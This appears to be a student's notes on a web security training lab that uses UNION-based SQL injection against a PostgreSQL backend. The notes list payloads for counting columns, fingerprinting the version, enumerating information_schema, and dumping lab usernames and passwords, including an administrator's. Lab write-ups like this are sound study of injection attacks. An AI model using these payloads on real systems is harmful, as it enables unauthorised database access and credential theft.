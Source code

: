 Lab #9 :- Sql injjection attack, listing the database contents on non-Oracle databases

End Goals: 
- Determine the table that contains usernames and passwords
- Determine the relevent columns
- Output the content of the table
- Login as the administrative user

Ananlysis:

1. Find the number of columns 
' order by 3-- -> Internal server error'
3 - 1 = 2

2. Find the data type of the columns
' UNION select 'a','a' --
-> both coloumn accept type text

3. Version of the database 
' UNION SELECT @@version, NULL -- -> not Microsoft'
' UNION SELECT version(), NULL -- -> 200 OK PostgreSQL 11.11 (Debian 11.11-1 pgdg90+1)

4. Output the list of table names in the database

' UNION SELECT * FROM information_schema.tables

' UNION SELECT table_name , NULL FROM information_schema.tables--

5. Output the column names of the table

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm' --


table--: users_fpoczf

username_kcdfqm
password_hrcklk


username_pxqwui
password_bfvoxs

6. Output the usernames and passwords

' UNION select username_pxqwui, password_bfvoxs from users_xacgsm --

' UNION select username_kcdfqm,password_hrcklk from users_fpoczf --

administator
9g91jpytvv5c091xpjxc


administrator
ndio9kinq8k4vxgdz840

